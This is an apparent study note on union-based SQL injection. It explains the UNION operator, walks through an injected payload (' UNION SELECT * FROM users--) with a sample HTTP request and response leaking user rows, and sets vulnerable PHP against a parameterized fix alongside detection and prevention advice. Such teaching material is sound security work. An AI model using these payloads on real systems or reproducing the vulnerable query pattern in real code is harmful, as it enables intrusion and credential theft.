

## Union-Based SQL Injection

Union-based SQL Injection is a specific type of SQL Injection attack where the attacker uses the `UNION` operator to combine the results of two or more SELECT statements. This technique is often used to extract data from different tables within the same database.

### Background Theory

The `UNION` operator is used to combine the result sets of two or more SELECT statements. Each SELECT statement within the UNION must have the same number of columns and compatible data types. For example:

```sql
SELECT column1, column2 FROM table1
UNION
SELECT column1, column2 FROM table2;
```

In the context of SQL Injection, an attacker can inject a `UNION` statement to retrieve data from other tables. This is particularly useful when the original query returns a small set of data, but the attacker wants to access additional information.

### Steps to Perform Union-Based SQL Injection

To perform a union-based SQL Injection attack, follow these steps:

1. **Identify the Vulnerable Input Field**: Find an input field that is used in an SQL query, such as a search box or a login form.
2. **Inject Malicious SQL Code**: Insert a `UNION` statement into the input field to combine the original query with a new one that retrieves data from another table.
3. **Retrieve Data**: Execute the modified query to retrieve the desired data.

### Example: Exploiting a Union-Based SQL Injection

Consider a web application with a search feature that queries a database to return products based on a category. The original SQL query might look like:

```sql
SELECT * FROM products WHERE category = 'input_category';
```

An attacker can inject a `UNION` statement to retrieve data from another table, such as the `users` table:

```sql
SELECT * FROM products WHERE category = 'input_category' UNION SELECT * FROM users;
```

By entering the following input in the search box:

```
' UNION SELECT * FROM users--
```

The resulting SQL query would be:

```sql
SELECT * FROM products WHERE category = '' UNION SELECT * FROM users--';
```

This query combines the results of the original query with the `users` table, potentially exposing sensitive user data.

### Mermaid Diagram: SQL Injection Attack Flow



### Common Pitfalls

1. **Incorrect Number of Columns**: Ensure that the number of columns in the injected `UNION` statement matches the original query.
2. **Data Type Mismatch**: Ensure that the data types of the columns in the injected `UNION` statement are compatible with those in the original query.
3. **Error Handling**: Some applications may display error messages that can help the attacker refine their attack.

### How to Prevent / Defend Against Union-Based SQL Injection

#### Detection

1. **Logging and Monitoring**: Implement logging and monitoring to detect unusual SQL queries or patterns indicative of SQL Injection attempts.
2. **Intrusion Detection Systems (IDS)**: Use IDS to identify and alert on suspicious activities.

#### Prevention

1. **Input Validation**: Validate and sanitize all user inputs to ensure they conform to expected formats.
2. **Parameterized Queries**: Use parameterized queries or prepared statements to separate SQL logic from user inputs.
3. **Least Privilege Principle**: Ensure that the application runs with the least privileges necessary to perform its tasks.

#### Secure Coding Fixes

**Vulnerable Code:**

```php
$category = $_GET['category'];
$query = "SELECT * FROM products WHERE category = '$category'";
$result = mysqli_query($conn, $query);
```

**Secure Code:**

```php
$category = $_GET['category'];
$stmt = $conn->prepare("SELECT * FROM products WHERE category = ?");
$stmt->bind_param("s", $category);
$stmt->execute();
$result = $stmt->get_result();
```

### Complete Example: Full HTTP Request and Response

#### HTTP Request

```http
GET /search?category='%20UNION%20SELECT%20*%20FROM%20users-- HTTP/1.1
Host: vulnerableapp.com
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Search Results</title>
</head>
<body>
    <h1>Search Results</h1>
    <table>
        <tr>
            <th>User ID</th>
            <th>Username</th>
            <th>Password</th>
        </tr>
        <tr>
            <td>1</td>
            <td>admin</td>
            <td>hashedpassword1</td>
        </tr>
        <tr>
            <td>2</td>
            <td>user1</td>
            <td>hashedpassword2</td>
        </tr>
    </table>
</body>
</html>
```

### Practice Labs

For hands-on practice with SQL Injection attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various types of SQL Injection attacks.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills, including SQL Injection.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities, including SQL Injection.

---
<!-- nav -->
[[11-Scripted SQL Injection Exploit|Scripted SQL Injection Exploit]] | [[Web Security (PortSwigger)/02-SQL Injection/11-Lab 10 SQL injection attack listing the database contents on Oracle/00-Overview|Overview]] | [[Web Security (PortSwigger)/02-SQL Injection/11-Lab 10 SQL injection attack listing the database contents on Oracle/13-Conclusion|Conclusion]]
